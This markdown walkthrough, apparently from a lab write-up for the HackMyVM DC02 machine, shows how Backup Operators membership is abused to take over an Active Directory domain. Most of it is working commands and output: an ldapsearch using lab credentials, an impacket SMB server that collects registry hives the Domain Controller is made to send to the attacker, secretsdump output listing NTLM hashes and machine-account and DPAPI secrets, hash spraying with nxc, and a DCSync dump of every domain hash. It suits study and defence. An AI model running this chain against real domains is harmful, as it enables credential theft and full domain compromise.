

This attack demonstrates how a **Backup Operators** group membership can be abused to escalate privileges from a low-privileged domain user to full **Domain Administrator** compromise.

---

## Why Backup Operators is Dangerous

- Members of the **Backup Operators** group are granted the ability to **bypass file system ACLs** for backup and restore operations on a Domain Controller.

- This includes the ability to:
    
    - Read **registry hives** (`SAM`, `SYSTEM`, `SECURITY`) on a Domain Controller.
        
    - Access sensitive files (e.g., `NTDS.dit`) if reachable.
        
- Although not a Domain Admin group, **Backup Operators** effectively allows **offline credential extraction** because registry hives contain the boot key and local secrets.


---

## Attack Process
> For this example the environment from [DC02-HackMyVm](https://hackmyvm.eu/machines/machine.php?vm=DC02) will be used.

**Step 1: Identify Group Membership**
```bash
ldapsearch -x -H ldap://<DC_IP>/ -D "zximena448@SOUPEDECODE.LOCAL" -w 'internet' \
  -b "dc=SOUPEDECODE,dc=LOCAL" "(sAMAccountName=zximena448)" memberOf

## Result
memberOf: CN=Backup Operators,CN=Builtin,DC=SOUPEDECODE,DC=LOCAL
```

This can also be seen with Bloodhound:



**Step 2: Prepare SMB Server**  
You need to set up a writable SMB share to receive dumped registry files:

```bash
mkdir smbshare
impacket-smbserver -smb2support share ./smbshare
```

**Step 3: Trigger Registry Backup on the DC**  
Use the [backup_dc_registry](https://github.com/horizon3ai/backup_dc_registry)
```bash
python3 reg.py zximena448:'internet'@<domain_ip> backup -p '\\<attack_ip>\share'
```
This instructs the Domain Controller to perform a backup and write the **SAM**, **SYSTEM**, and **SECURITY** hives to the attacker’s SMB share.


**Step 4: Extract Local Hashes**  
The downloaded registry hives are parsed locally to extract hashes:
```bash
impacket-secretsdump -system SYSTEM -security SECURITY -sam SAM LOCAL
```

This yields:

- Local Administrator NTLM hash
- Machine account secrets (`$MACHINE.ACC`)
- LSA secrets and cached credentials
```bash
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies [*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::[*] Dumping cached domain logon information (domain/username:hash)[*] Dumping LSA Secrets[*] $MACHINE.ACC $MACHINE.ACC:plain_password_hex:71ba05e6c76aad65757f5e38952ffef688c7c9340677582e26e7cb12fab5f10378070635b962da92750fe273aa4155b9bcd0df33ae0867ea34c1261d9a3b16176af648e7d99b73d21b88d10d4dc89f48d808ac86d5b998a32925337f79ef1deb50b80812d1fb07b85d18ee4662d9eb97254cdaff9029602bf0e08a5d7de0dcff1a2048ab8bec9a3f53580292476e9a9c4699e0eaac59eb2cf537873b52981d9c288abc5fc6546d575df929be7b0e21d03c225f9a798b92a70bebdf6ab9a110d70f7302f8a5572c6bc01a07588e60d2ca2f042a1e8e710b578a9a5904e22f3a914f4f625c18c584e1e33955fe1fa9a7a1$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d147f41261ce2cf5e402a8de546323e1[*] DPAPI_SYSTEM dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503[*] NL$KM  0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../... 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!. 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c. 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
```

With this, we can confirm that the process worked and we obtained the password hashes of those users, but only **from the local system**.  
What we actually want are the **domain password hashes** of those same users.  
The hash we are most interested in is the one belonging to the **Domain Controller**, and the most promising candidate for that is the **$MACHINE.ACC** account.  
Therefore, we will now test which user from the previously gathered list this hash belongs to.

>**$MACHINE.ACC hash** 
>The machine account (the computer object of the Domain Controller in Active Directory).  This account automatically exists for every domain-joined host and uses a randomly generated password.  
  Its NTLM hash can be reused to authenticate to the domain just like a normal user.  
  If this is the **Domain Controller’s machine account**, it often has privileges to replicate the Active Directory database, making it extremely valuable.
    


**Step 5: Validate the DC Machine Account Hash**  
Use the machine account hash to attempt SMB authentication across the domain:
```bash
nxc smb <domain_ip> -u users.txt  -H 'hash'
```

**Step 6: Dump Domain Credentials**  
With the machine account hash, the attacker can use **DRSUAPI** replication privileges to extract the **NTDS.dit** database containing all domain password hashes:
```bash
impacket-secretsdump '<domain>/<user>$@<DC_IP>' \
  -hashes 'aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH>'
```